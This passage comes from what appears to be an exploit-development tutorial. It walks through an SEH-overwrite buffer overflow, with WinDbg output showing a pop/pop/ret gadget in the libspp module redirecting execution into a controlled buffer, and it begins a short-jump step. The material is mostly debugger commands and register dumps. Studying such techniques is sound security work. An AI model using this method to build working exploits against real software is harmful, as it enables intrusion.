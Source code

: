 As we can see, we successfully overwritted the Exception Handler with our P/P/R instructions sequence.

Set a breakpoint to the P/P/R and continue the execution flow. Once we reach our breakpoint, single step through the POP instructions and inspect the address we will be returning into (RET).

```bash
0:009> bp 0x1015a2f0

0:009> g
Breakpoint 0 hit
eax=00000000 ebx=00000000 ecx=1015a2f0 edx=77705b50 esi=00000000 edi=00000000
eip=1015a2f0 esp=0081f440 ebp=0081f460 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
libspp!pcre_exec+0x16460:
1015a2f0 58              pop     eax

0:009> t
eax=77705b32 ebx=00000000 ecx=1015a2f0 edx=77705b50 esi=00000000 edi=00000000
eip=1015a2f1 esp=0081f444 ebp=0081f460 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
libspp!pcre_exec+0x16461:
1015a2f1 5b              pop     ebx

0:009> t
eax=77705b32 ebx=0081f540 ecx=1015a2f0 edx=77705b50 esi=00000000 edi=00000000
eip=1015a2f2 esp=0081f448 ebp=0081f460 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
libspp!pcre_exec+0x16462:
1015a2f2 c3              ret

0:009> dd poi(esp) L10
0081ff44  41414141 1015a2f0 43434343 43434343
0081ff54  43434343 43434343 43434343 43434343
0081ff64  43434343 43434343 43434343 43434343
0081ff74  43434343 43434343 43434343 43434343

0:009> t
eax=77705b32 ebx=0081f540 ecx=1015a2f0 edx=77705b50 esi=00000000 edi=00000000
eip=0081ff44 esp=0081f44c ebp=0081f460 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
0081ff44 41              inc     ecx

```

We can see that after executing the RET instruction, we returned into the stack within our controlled buffer right before our Exception Handler address.

### 8. Short Jump.<a name="ShortJump"></a>

Now, inspect the resulting assembly instructions inside WinDbg.

```bash
0:009> u eip L10
0081ff44 41              inc     ecx
0081ff45 41              inc     ecx
0081ff46 41              inc     ecx
0081ff47 41              inc     ecx
0081ff48 f0a215104343    lock mov byte ptr ds:[43431015h],al
0081ff4e 43              inc     ebx
0081ff4f 43              inc     ebx
0081ff50 43              inc     ebx
0081ff51 43              inc     ebx
0081ff52 43              inc     ebx
0081ff53 43              inc     ebx
0081ff54 43              inc     ebx
```